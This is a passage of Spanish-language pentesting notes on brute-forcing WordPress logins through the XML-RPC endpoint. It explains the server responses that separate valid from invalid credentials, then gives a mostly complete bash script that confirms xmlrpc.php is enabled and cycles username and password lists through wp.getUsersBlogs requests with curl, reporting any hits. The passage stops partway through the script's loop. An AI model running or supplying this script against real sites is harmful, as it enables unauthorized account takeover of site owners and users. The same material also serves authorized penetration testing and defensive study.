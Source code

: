 **Posibles respuestas:**
- Error 403: Credenciales incorrectas
- Listado de blogs: Credenciales correctas

### 🤖 Automatización del Proceso

> [!tip] Script de automatización
> Puedes crear un script en bash que automatice el proceso de fuerza bruta contra XML-RPC:

```bash
#!/bin/bash
# wp-xmlrpc-brute.sh

target="$1"
userlist="$2"
passlist="$3"

if [[ $# -ne 3 ]]; then
    echo "Uso: $0 <URL> <usuarios.txt> <passwords.txt>"
    exit 1
fi

check_xmlrpc() {
    response=$(curl -s -X POST "$target/xmlrpc.php")
    if [[ $response == *"XML-RPC server accepts POST requests only"* ]]; then
        echo "[+] XML-RPC está habilitado!"
        return 0
    else
        echo "[-] XML-RPC no está disponible"
        return 1
    fi
}

brute_force() {
    user="$1"
    pass="$2"
    
    xml_data="<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value><string>$user</string></value></param>
<param><value><string>$pass</string></value></param>
</params>
</methodCall>"

    response=$(curl -s -X POST "$target/xmlrpc.php" -d "$xml_data")
    
    if [[ $response != *"faultCode"* ]]; then
        echo "[+] ÉXITO: Usuario: $user | Contraseña: $pass"
        return 0
    fi
    return 1
}

# Verificar XML-RPC
check_xmlrpc || exit 1

# Iniciar fuerza bruta
echo "[*] Iniciando ataque de fuerza bruta..."
while IFS= read -r user; do
    while IFS= read -r pass; do
        echo -ne "[*] Probando $user:$pass                    \r"
        brute_force "$user" "$pass" && break
```